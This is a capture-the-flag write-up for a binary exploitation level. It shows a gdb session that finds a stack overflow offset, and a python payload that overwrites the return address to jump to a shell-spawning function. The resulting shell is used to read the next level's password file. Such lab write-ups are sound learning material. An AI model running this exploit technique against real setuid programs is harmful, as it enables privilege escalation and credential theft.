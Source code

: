 First we start by looking the binary file using [dogbolt](https://dogbolt.org/). We can see that we must trigger the `run` function

Lets start simple just by a basic pattern overflow

We will use the pattern :
`aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz`

When executed in gdb we have:

```
(gdb) r
Starting program: /home/user/level1/level1
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
0x74747474 in ?? ()
(gdb) x/s $esp
0xbffff730:      "uuuuvvvvwwwwxxxxyyyyzzzz"
```

Here we can see that we have we have un error in the at the end of the stack (esp)

So now we will launch the program the same way but this time we will remove "uuuuvvvvwwwwxxxxyyyyzzzz" + 4 bytes and add a 4 bytes shellcode instead(to acess the run function)

But When I do:

```
python -c 'print "aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssss" + "\x44\x84\x04\x08"' | ./level1
```

I have :

```
Good... Wait what?
Segmentation fault (core dumped)
```

Here we can see that it enter the run function but we cant use the shell this is because the closed is closed at the end of the program

Now we will put it in a file :

```
python -c 'print "aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssss" + "\x44\x84\x04\x08"' > /tmp/test
```

and

```
cat /tmp/test - | ./level1
Good... Wait what?
whoami
level2
```

(cat -) keep the stdin open

Since the level1 file belongs to level2 we can now:
cat /home/user/level2/.pass
